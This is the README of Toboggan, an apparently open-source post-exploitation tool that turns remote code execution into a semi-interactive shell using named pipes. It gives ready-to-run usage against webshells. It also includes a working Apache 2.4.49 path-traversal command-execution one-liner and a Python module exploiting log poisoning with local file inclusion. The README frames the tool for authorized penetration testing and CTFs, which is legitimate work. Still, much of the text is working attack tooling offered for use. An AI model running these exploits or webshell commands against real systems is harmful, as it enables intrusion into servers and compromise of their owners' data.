 # Toboggan

![toboggan-coin](/media/toboggan-coin.webp)

🛝 Slide into post-exploitation from RCE with ease! Toboggan is your go-to tool that wraps your remote command execution into a semi-interactive shell, making the post-exploitation phase a breeze.


Getting started with toboggan is as smooth. You can do this by pulling directly from the repository:
```shell
python3 -m pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
``` 

Or, by using [`pipx`](https://pypa.github.io/pipx/) - and you should -, give this a whirl:
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

Thus, you can execute it with the following command:
```shell
toboggan -m /path/to/your/rce.py -i
```

This command loads your rce.py module and propels you into an interactive session for some remote fun. If you're in the mood for a subtler, semi-interactive experience, just drop the `-i` option.

## Built-in modules
### WebShell
Don't have a proper Python3 module on hand? Struck gold with a simple webshell.php? No worries! If your webshell just needs a cmd argument to spill the beans, do the following:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd'
```

Safety first. Always password-protect your shells. If you're the cautious type (and you should be), use Toboggan like this:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd' -p 'password'='@l/=$,dsfsdfm'
```

### System command
If it's a waste of time for you to build a python3 module because you don't like programming, and the vulnerability is easily exploitable with a command line, don't worry, you can use the `-o` or `--os` parameter and pass your command line with the `||cmd||` placeholder. For example, if you encounter a server running with `Apache httpd 2.4.49`, you can directly use:
```shell
toboggan -o 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## `rce.py` module
An RCE (Remote Code Execution) Python3 module is essentially a Python3 source code crafted to manage your remote code execution. For a module to be compatible with Toboggan, it **must** include a method named **execute**. This method **should have two parameters**: command of type str and timeout of type float.

Here's an example of an RCE module that leverages Log Pollution combined with Local File Inclusion. Admittedly, it's a bit pesky to replay:
```python
# Buit-in imports
import re

# Third party library imports
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Remove the User-Agent header
    response = httpx.get(
        url="http://beachvolley/pong/index.php",
        params={
            "page": r"\..\..\..\..\..\..\..\..\..\..\\xampp\apache\logs\access.log",
            "cmd": command,
        },
        headers={
            "User-Agent": ""
        },
        # ||BURP||
        timeout=timeout,
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    if match := re.search(
        pattern=r'\|\|START_CMD\|\|(.+?)\|\|END_CMD\|\|',
        string=response.text,
        flags=re.IGNORECASE | re.DOTALL
    ):
        return match.group(1).strip()
```

Remember, this setup is module-dependent. For instance, if your module necessitates `proxychains`, you can effortlessly invoke `toboggan` as shown below:
```shell
proxychains -q toboggan /path/to/your/rce.py
```

### Interactivity methods used

#### Unix
The Unix environment offers a plethora of inter-process communication (IPC) mechanisms. One such fascinating tool is the mkfifo, colloquially known as a "named pipe". This one-way IPC is often a go-to when one wishes to emulate a remote interactive shell session over an inherently non-interactive medium - think HTTP requests or rudimentary command execution interfaces.

At its heart, a named pipe, or FIFO (First In, First Out), is an avenue to smoothly transition through an RCE in restrictive scenarios, such as those barricaded behind firewalls, making it feel almost like you're operating in a pseudo-TTY.

**Why the insistence on a separate polling thread**? Imagine sending a command with an indefinite waiting period (like the notorious `top` or the sluggish `sleep 10000`). Without a distinct thread to handle these, the main application would be ensnared in a deadlock, patiently awaiting the command's conclusion. Enter the read thread. Its primary role is to juggle the outputs of these prolonged commands, ensuring the main loop is unimpeded and ever-ready for fresh input or commands.

#### Windows
Not done yet

## Contributing

`toboggan` is an open-source project, and I welcome contributions. Feel free to submit issues, feature requests, or pull requests on the GitHub repository. In order to create a Pull Request, you can follow those steps:
- Fork the project
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -Sam 'Added some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new **Pull Request**

### Setup

Recommended way for developping inside this project is by using `poetry`. Once this repository cloned, you just have to type `poetry shell` to get your environment ready. 

### Test your implementation
If you want to create a `pipx` special installation, you can do the following command inside the root of the project:
```shell
pipx install . --suffix '-test'
```

### Building a proper `pip` package
If you want to try building the tool with a real package, you firstly run `poetry build` and then:
```shell
python3 -m pip install dist/toboggan*.whl --force-reinstall
```

---

_N.B._ If you really want to use old maneers, you can still create a `requirements.txt` file using the following `poetry` commands:
```shell
poetry export -f requirements.txt > requirements.txt
```

## Disclaimer
Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.
